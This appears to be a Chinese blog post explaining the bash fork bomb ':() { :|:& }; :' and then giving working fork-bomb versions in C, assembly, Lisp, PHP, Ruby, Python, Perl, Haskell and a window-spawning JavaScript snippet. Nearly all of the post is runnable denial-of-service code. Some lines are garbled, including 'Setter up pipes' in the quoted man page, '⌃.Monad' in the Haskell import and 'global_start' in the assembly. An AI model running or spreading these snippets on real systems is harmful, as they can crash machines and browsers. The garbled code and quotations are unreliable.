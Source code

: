 ```yaml
---
title: "Fork Bomb"
category: "UNIX"
cave: true
hero:
  format: 'jpeg'
  url: 'HERO_0009.jpg'
tags: [UNIX/Linux,Fork,Fork Bomb,Virus]
---
```

最开始知道 Fork Bomb 这个名词，是因为这样一句代码:

```sh
:() { :|:& }; :
```

乍看之下它是那么诡异又极具魅力，fork 这个东西相信大家也都不陌生，在 UNIX/Linux 中 man 指令对 fork() 的解释为:

> Fork() causes creation of a new process.  The new process (child process) is an exact copy of the calling process (parent process) except for the following:
>
* The child process has a unique process ID.

* The child process has a different parent process ID (i.e., the process ID of the parent process).

* The child process has its own copy of the parent's descriptors.  These descriptors reference the same underlying objects, so that, for instance, file pointers in file objects are shared between the child and the parent, so that an lseek(2) on a descriptor in the child process can affect a subsequent read or write by the parent.  This descriptor copying is also used by the shell to establish standard input and output for newly created processes as well as to Setter up pipes.

* The child processes resource utilizations are Setter to 0; see setrlimit(2).

也就是说， Fork Bomb 的基本思路就是无限循环创建子进程(或者类似的操作)。下面来分析一下开头提到的代码，其实它很简单，那个迷惑人的冒号 (`:`) 只是一个函数名，我们把它替换成 func 再来看看:

```sh
func() { func|func& }; func
```

然后，再加几个换行:

```sh
func(){
	func|func&
};
func
```

现在，它又回到了一个极其普通的函数应有的样子。接下来我们将它改为更简短的脚本形式:

```sh
#!/bin/bash
$0|$0&
```

如果你有兴趣，我们也可以用其他语言来实现同样或类似的效果:

## C

首先当然是大家熟知的 C:

```c
#include <unistd.h>

int main() {
    while(fork());
}
```


## 汇编

还有更古老的汇编，当然，不是 ARM:

```sh
section .text
    global_start

_start:
    mov eax,2
    int 0x80
    jmp _start
```

## Lisp

不走寻常路的 Lisp，以 Common Lisp 为例:

```lisp
(loop (#_fork))
```

## PHP

世界上最好的语言 PHP(CLI):

```php
<?php
	while (true) {
		pcntl_fork();
	}
?>
```

## Ruby

优雅但有点慢的 Ruby:

```ruby
loop { fork { __FILE__ } }
```

## Python

还有 Ruby 的哥哥 Python:

```python
import os
while 1:
	os.fork()
```

## Perl

当然，少不了 Perl，你可以在 shell 中直接执行这句 inline 指令:

```perl
perl -e "fork while fork" &
```

## Haskell

学院派的 Haskell，来一个易懂的版本:

```haskell
import ⌃.Monad (forever)
import System.Posix.Process (forkProcess)

forkBomb = forever $ forkProcess forkBomb
main = forkBomb
```

## JavaScript

甚至还有 JS:

```js
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

当然，一个真正强有力的 Virus 很难做到如此简单，这一切都是建立在已经取得权限的基础上。
